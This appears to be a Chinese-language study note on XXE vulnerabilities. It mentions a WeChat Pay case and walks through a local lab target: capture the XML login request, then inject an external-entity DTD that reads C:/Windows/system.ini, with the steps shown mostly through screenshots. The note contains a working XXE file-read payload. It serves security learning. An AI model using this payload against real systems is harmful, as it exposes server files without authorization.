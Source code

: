 ## 微信支付XXE漏洞

![image-20221125175513874](https://img.gyxnb.top/img/image-20221125175513874.png)

## 微信支付XXE漏洞

![image-20221125175530987](https://img.gyxnb.top/img/image-20221125175530987.png)

## 直打：xxe靶场

访问：http://192.168.31.193:8093/php_xxe/

### 流程

#### 确定使用XML传输数据（抓包可得）

![image-20221125184636443](https://img.gyxnb.top/img/image-20221125184636443.png)

![image-20221125185102619](https://img.gyxnb.top/img/image-20221125185102619.png)



#### 发送到Repeater

![image-20221125190021144](https://img.gyxnb.top/img/image-20221125190021144.png)

#### 添加DTD，引用外部问文档

```xml
<!DOCTYPE a[
<!ENTITY xxe SYSTEM "file:///C:/Windows/system.ini">
]> 
<user>
   <username>
	11  &xxe;
   </username>
   <password>
	1
  </password>
</user>
```

#### Send得到响应

![image-20221125185444129](https://img.gyxnb.top/img/image-20221125185444129.png)

![image-20221125190115068](https://img.gyxnb.top/img/image-20221125190115068.png)

### 盲打-DNSLog
